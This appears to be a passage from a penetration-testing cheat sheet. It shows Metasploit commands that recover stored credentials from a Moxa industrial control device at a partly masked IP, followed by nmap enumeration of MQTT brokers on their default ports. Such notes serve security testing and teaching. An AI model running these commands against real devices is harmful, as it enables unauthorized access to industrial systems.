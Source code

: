 Metasploit:

```console
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```

## MQTT Broker Enumeration

MQTT is a lightweight messaging protocol often used in IoT (Internet of Things) applications.

- 1883: Default port for MQTT.
- 8883: Default port for MQTT over TLS/SSL.

```sh
nmap -p 1883 --script mqtt-info <target>
```
